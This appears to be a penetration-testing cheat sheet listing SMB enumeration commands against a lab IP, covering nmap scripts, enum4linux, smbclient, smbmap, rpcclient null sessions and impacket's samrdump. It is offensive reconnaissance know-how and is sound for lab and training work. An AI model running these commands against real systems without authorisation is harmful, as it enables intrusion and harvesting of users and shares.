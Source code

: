 Enum hostname

enum4linux -n 10.11.1.111

nmblookup -A 10.11.1.111

nmap --script=smb-enum* --script-args=unsafe=1 -T5 10.11.1.111

# Get Version

smbver.sh 10.11.1.111

Msfconsole;use scanner/smb/smb_version

ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]' 

smbclient -L \\\\10.11.1.111

# Get Shares

smbmap -H  10.11.1.111 -R <sharename>

echo exit | smbclient -L \\\\10.11.1.111

smbclient \\\\10.11.1.111\\<share>

smbclient -L //10.11.1.111 -N

nmap --script smb-enum-shares -p139,445 -T4 -Pn 10.11.1.111

smbclient -L \\\\10.11.1.111\\

# Check null sessions

smbmap -H 10.11.1.111

rpcclient -U "" -N 10.11.1.111

smbclient //10.11.1.111/IPC$ -N

# Exploit null sessions
enum -s 10.11.1.111
enum -U 10.11.1.111
enum -P 10.11.1.111
enum4linux -a 10.11.1.111
/usr/share/doc/python3-impacket/examples/samrdump.py 10.11.1.111

# Connect to username shares
smbclient //10.11.1.111/share -U username

# Connect to share anonymously
smbclient \\\\10.11.1.111\\<share>
smbclient //10.11.1.111/<share>
smbclient //10.11.1.111/<share\ name>
smbclient //10.11.1.111/<""share name"">
rpcclient -U " " 10.11.1.111
rpcclient -U " " -N 10.11.1.111
